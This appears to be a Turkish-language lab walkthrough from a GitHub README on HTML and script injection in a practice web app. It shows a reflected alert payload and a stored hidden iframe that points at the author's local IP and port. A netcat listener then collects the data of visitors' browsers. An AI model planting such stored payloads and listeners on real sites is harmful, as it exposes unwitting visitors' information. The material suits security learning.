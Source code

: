 SQL İNJECTİON - REFLECTED (GET)

![photo_6023604428080265317](https://user-images.githubusercontent.com/110966683/183882924-70f82c7d-2eda-466c-9db7-4680c145040d.jpeg)

bu panelde html açığı olup olmadığını anlamak için panele html kodu yazıyoruz ben örnek olarak <!--<h1>sait</h1>*/--> yazıyorum.

![photo_6025856227893950465_w](https://user-images.githubusercontent.com/110966683/183883997-b8cb1b5b-2198-4612-ac88-f445d160f5e6.jpeg)

gördüğümüz gibi başlık olarak yazdı 

alert scripti deneyelim şimdi ekrana 1 yazdırması lazım

<h1>Hello,<script>alert(1)</script>!</h1>

![photo_6023604428080265318_w](https://user-images.githubusercontent.com/110966683/183884371-f0fefa5a-4830-465d-8f45-8b239cb8ccf7.jpg)

HTML İNJECTİON - STORED (BLOG)
eğer bir stored açığı olursa burda çalıştırdığımız bir kod web sitesine giren herkesi etkiler farklı bilgisayrdan bu web sitesine girseniz bile hackerin çalıştırdığı kod çalışacaktır.
örnek olarak alert scripti çalıştırırsak giren her kullanıcı bu alerti görür
alert scripti: <h1>Hello,<script>alert(1)</script>!</h1>
peki daha teklikeli olarak ne yapılabilir;
<iframe src="http://192.168.245.148:4545/test" height="0"  width="0"></iframe>
kendi bilgisayarımızın ip sini ve kullanılmayan bir portadresi yazıyoruz 

bu komut sayesinde siteye giren kullanıcıların bilgileri bilgisayarımıza gelir
dinlemek için linux terminalimizde natcat kullanacağız 
linux natcat komutu: nc -nvlp 4545 dinlemek için 


![photo_6023604428080265325_w](https://user-images.githubusercontent.com/110966683/183884730-c7d1a93e-aefe-488d-938b-738bfcd1d907.jpg)


görüldüğü gibi belirlediğimizportu dinledi ve kullanıcının bilgilerini getirdi.
